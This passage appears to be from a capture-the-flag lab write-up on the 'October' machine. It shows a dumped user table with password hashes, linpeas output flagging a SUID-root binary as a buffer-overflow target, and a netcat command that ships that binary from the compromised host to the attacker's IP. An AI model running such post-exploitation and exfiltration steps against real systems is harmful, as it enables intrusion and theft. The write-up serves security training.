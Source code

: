 ```
| name   | email           | password                                                     | username        |
+--------+-----------------+--------------------------------------------------------------+-----------------+
| aaa    | test@test.com   | $2y$10$4BjH4v.qVfYdQvQDE92D1.WeEeDKk/KnF7o0tmwQGHsNYoKsuomZO | test@test.com   |
| test   | test@aaa.com    | $2y$10$osIpPHjAEF93srSsntD24.P8Rji0PNzbOLz6YtgRKXAcqAPgaH.LW | test@aaa.com    |
| admin  | test4@test.com  | $2y$10$yZ6KvG2tsy1pfFqNAnEpo.Fz8tWV.ozjwITGAUzM5a8RcBT15BsuS | test4@test.com  |
+--------+-----------------+--------------------------------------------------------------+-----------------+
4 rows in set (0.00 sec)
```

We don't find any additional credentials in the database we can reuse to login.

In the linpeas.sh this also stands out:

```
-rwsr-xr-x 1 root    root       7.3K Apr 21  2017 /usr/local/bin/ovrflw
  --- Trying to execute /usr/local/bin/ovrflw with strace in order to look for hijackable libraries...
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/i386-linux-gnu/libc.so.6", O_RDONLY|O_CLOEXEC) = 3
```

Clearly /usr/local/bin/ovrflw is the intended privilege escalation path. 
Looking for source files we can't find any:

```
www-data@october:/dev/shm$ find / -name "*ovrflw*" 2>/dev/null
find / -name "*ovrflw*" 2>/dev/null
/usr/local/bin/ovrflw
www-data@october:/dev/shm$ /usr/local/bin/ovrflw 
/usr/local/bin/ovrflw 
Syntax: /usr/local/bin/ovrflw <input string>
www-data@october:/dev/shm$ ls -l /usr/local/bin/ovrflw
ls -l /usr/local/bin/ovrflw
-rwsr-xr-x 1 root root 7377 Apr 21  2017 /usr/local/bin/ovrflw
```

So this is a binary exploitation path, that would have to be exploited with a buffer overflow, as the name suggest.
We download the file back to our machine:

```
www-data@october:/dev/shm$ nc -w 3 10.10.14.28 6667 < /usr/local/bin/ovrflw
nc -w 3 10.10.14.28 6667 < /usr/local/bin/ovrflw
www-data@october:/dev/shm$ md5sum /usr/local/bin/ovrflw
md5sum /usr/local/bin/ovrflw
0e531949d891fd56a2ead07610cc5ded  /usr/local/bin/ovrflw
```
